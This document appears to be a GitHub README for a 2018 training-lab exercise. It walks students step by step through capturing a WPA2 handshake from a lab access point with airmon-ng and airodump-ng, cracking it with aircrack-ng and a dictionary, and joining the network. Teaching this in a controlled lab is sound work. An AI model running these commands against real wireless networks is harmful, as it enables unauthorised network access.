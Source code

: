 # RSSC2018-Wireless-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started:
1. An access point broadcasting an SSID with a WPA2 password.
2. Kali Linux installed to attack the target host from.
3. A wireless card compatiable with Kali Linux to scan/monitor wireless networks in your vicinity. 

## Air Monitor
You will walk through the process of monitoring wireless networks and capturing a WPA2 handshake. You will need one Terminal window open to execute the following steps.

1. In your terminal, execute the iwconfig command to show any wireless cards in the computer. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You will need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, you need to change the wireless card to monitoring mode. You do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```
More information on the commands used, or other information about airmon-ng can be found by running `man airmon-ng`.  

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
YOU can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. You will have to catch someone in the act of authenticating to get a valid capture. We have a script running that acts as someone authenticating to the network and generating that WPA2 handshake. 
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –-write <filename>
``` 
Note: Replace the mac-address and channel with what you found in step 3 and give it a filename. MAC address will need to use numbers, colons, and all caps. See below for correct command:
```bash
airodump-ng wlan0mon -bssid 00:30:44:27:E3:38 --channel 1 --write rssc
```
airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the terminal window. We want a to get a few of these handshakes in our capture. Run this command for 15 seconds and then break out of it using ‘ctrl + C’. An 'ls' after you break out should display 'rssc-*.cap' file that we will use in the next step.
  
More information on the commands used, or other information about airodump-ng can be found by running `man airodump-ng`. 

## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng rssc-01.cap -a 2 -w dictionary.txt
```
* -a forces the attack mode. The '2' following -a is for WPA-PSK. A '1' is used for WEP.
* -w is the path to the dictionary file used for WPA cracking. In this case, 'dictionary.txt' is sitting in our home directory.

After a few seconds, it should find the password needed to get onto the 'RSSC' network. It is 'Drowssap2'.

More information on the commands used, or other information about aircrack-ng can be found by running `man aircrack-ng`. 

9. Back on the Kali Linux desktop, select the icon at the bottom of the sidebar titled 'Show Applications'. Use the 'Type to search' box to search 'Settings' and open it. Select Wi-Fi and find 'RSSC' under 'Visible Networks'. Select it and type in the password to connect to the network.

10. Back in terminal, type:
```bash
ping 192.168.0.1
```
This IP address is the AP/Router that is broadcasting this SSID. If you are able to ping it successfully, you have gotten onto the network. If not, make sure you are connected to the 'RSSC' network and try again.
